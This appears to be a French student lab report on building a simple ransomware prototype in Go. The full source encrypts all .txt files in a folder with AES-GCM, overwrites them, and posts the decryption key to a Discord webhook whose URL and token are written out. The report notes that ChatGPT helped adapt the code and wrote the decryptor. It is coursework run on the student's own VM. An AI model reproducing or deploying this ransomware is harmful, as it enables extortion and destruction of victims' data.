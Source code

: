 # TP 3
1. Pour le server et le Webhok j'ai utilisé ceux des TP précédents
2. pour le script j'ai piqué [celui ci](https://gist.github.com/donvito/efb2c643b724cf6ff453da84985281f8)
\
avec ChatGPT je l'ai modifié pour qu'il chiffre "C:\Users\Fsaint\Desktop\test\mdp.txt" en particulier et qu'il envoie la clé de déchiffrement sur mon WebHook
\
Le script final : 
```
package main

import (
	"bytes"
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"encoding/hex"
	"fmt"
	"io"
	"io/ioutil"
	"net/http"
	"path/filepath"
)

func main() {
	// Générer une clé aléatoire pour AES-256
	bytes := make([]byte, 32) // 32 bytes = 256 bits
	if _, err := rand.Read(bytes); err != nil {
		panic(err.Error())
	}

	// Encoder la clé en string hexadécimale
	key := hex.EncodeToString(bytes)
	fmt.Printf("Clé générée pour le chiffrement : %s\n", key)

	// Envoyer la clé au webhook
	sendKeyToWebhook(key, "https://discord.com/api/webhooks/1290310869024112713/QazJoLT-VbGBLiJ0GqlZkXWoTwLBoiLF8EeuIOegBDUYpOaV_Rnj5jmZ7jZPyrHg1PoS")

	// Chemin vers le dossier contenant les fichiers .txt
	folderPath := `C:\Users\paph\Desktop\test`

	// Parcourir tous les fichiers .txt dans le dossier
	files, err := filepath.Glob(filepath.Join(folderPath, "*.txt"))
	if err != nil {
		panic(err)
	}

	// Pour chaque fichier, lire et chiffrer son contenu
	for _, file := range files {
		content, err := ioutil.ReadFile(file)
		if err != nil {
			fmt.Printf("Erreur lors de la lecture du fichier %s: %v\n", file, err)
			continue
		}

		// Chiffrer le contenu du fichier
		encrypted := encrypt(string(content), key)

		// Remplacer le contenu du fichier par la version chiffrée
		err = ioutil.WriteFile(file, []byte(encrypted), 0644)
		if err != nil {
			fmt.Printf("Erreur lors de l'écriture du fichier %s: %v\n", file, err)
			continue
		}

		fmt.Printf("Fichier %s chiffré avec succès.\n", file)
	}
}

// Fonction pour envoyer la clé au webhook Discord
func sendKeyToWebhook(key string, webhookURL string) {
	payload := fmt.Sprintf(`{"content": "Clé générée : %s"}`, key)
	_, err := http.Post(webhookURL, "application/json", bytes.NewBuffer([]byte(payload)))
	if err != nil {
		fmt.Printf("Erreur lors de l'envoi de la clé au webhook : %v\n", err)
	}
}

func encrypt(stringToEncrypt string, keyString string) (encryptedString string) {
	key, _ := hex.DecodeString(keyString)
	plaintext := []byte(stringToEncrypt)

	// Créer un nouveau bloc de chiffrement avec la clé
	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err.Error())
	}

	// Créer un GCM
	aesGCM, err := cipher.NewGCM(block)
	if err != nil {
		panic(err.Error())
	}

	// Créer un nonce
	nonce := make([]byte, aesGCM.NonceSize())
	if _, err = io.ReadFull(rand.Reader, nonce); err != nil {
		panic(err.Error())
	}

	// Chiffrer les données en utilisant aesGCM.Seal
	ciphertext := aesGCM.Seal(nonce, nonce, plaintext, nil)
	return fmt.Sprintf("%x", ciphertext)
}
```
3. je l'ai rendu executable puis executé sur ma vm 
\
Fichier original : 
![mdp](mdptxt.png)
Fichier chiffré :
![chiffré](chiffré.png)
resultat sur le server
![webhook](webhook.png)
4. decrypt tool fait entièrement par ChatGPT a partir du encrypt tool
donc quand je l'execute il demande la clé
![decrypt](decrypt.png)
apres que la clé soit rentrée le fichier texte retrouve les données d'origine
![cbon](retouralanormale.png)